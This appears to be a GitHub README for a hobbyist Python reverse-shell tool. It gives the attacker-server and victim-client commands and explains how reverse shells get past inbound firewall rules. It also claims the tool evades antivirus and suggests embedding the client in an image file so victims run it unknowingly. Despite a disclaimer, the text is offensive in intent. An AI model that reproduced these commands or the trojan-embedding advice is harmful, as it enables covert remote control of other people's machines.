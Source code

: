 

# Sample Demo:
![Alt Text](https://github.com/heecheon92/Reverse_shell/blob/master/rshell_demo.png)

# How to Use?

You can run this program either as a server (attacker) or client (victim)

## To run as a server:
```
  python3 rshell.py -m server -p port_number
```
## To run as a client:
```
  python3 rshell.py -m client -t server_ip_address -p server_port_number
```
# Well, so how does it work?

Server program opens up an accessible port.

Once the server program is running, client program can be executed to connect to the port hosted by the server.

Unlike normal shells or also known as "bind shell", in which an innocent server simply allow an user to connect and the malicous user client can send payloads to attack the server node, in reverse shell, the server program acts as a malicous endpoint and allows the server to execute shell commands to a client.

In most network environment, it is a common practice that in-bound policy is set to be strict to prevent malicous actions to be done and typically, out-bound policy is set to be loose so that users within the network can freely traverse the endpoints outside of the firewall.

Due to this environment, exploitation by bind shell is not really easily acheiveable.

However, since the attcker is the server so that the in-bound policy can be set relatively loosely or set with no in-bound policy at all so that client can easily access to the server, implementing reverse shell is very effective to control a remote node.

All communication between the server and the client is not secure and can be easily detected by network monitoring tools like Wireshark. I am planning to add a security layer.



Bind Shell:

Server (Victim) ---------|Firewall|<<---------Client (Attacker)

It is easy to fail to make connection if an out-bound policy of firewall is well set.

Reverse Shell:

Server (Attacker) -------NO-FIREWALL <<------------Client (Victim)

Attacker set no in-bound policy so that victims can freely connect to the trap server.

So, a reverse shell is just a shell that exploits common firewall's nature.

Again, even though this is a very simple program, it won't be detected by an anti-virus software as a threat.

So, DO NOT USE TO HARM OTHER ENDPOINTS.

### But even if I run the program as a server......, why would anybody run this program as a client?
### Well, that is your portion. You may set up a script to automatically run this program and embed the scrip to a image file or something. That is entirely up to you.


# A Very Long Disclaimer: 

I am not responsible for any real / potential damage by the use of this project

I am not a professional penetration tester.

However, I do find network/socket programming very attractive and based on what I learned from

network class in college and socket programming I picked up from somewhere, I have made this little sneaky programs.

Just because I like to understand about penetration testing, it does not mean I would like to relentlessly abuse well known tools or frameworks (such as metasploit....veil....sqlmap.....hashcat.....etc). Instead, I wanted to try making my own script and see what I can do. I am not saying those penetration tools are bad. In fact, I get amazed how well they are automated to attack mutliple victim nodes. I just do not want to solely rely on them.




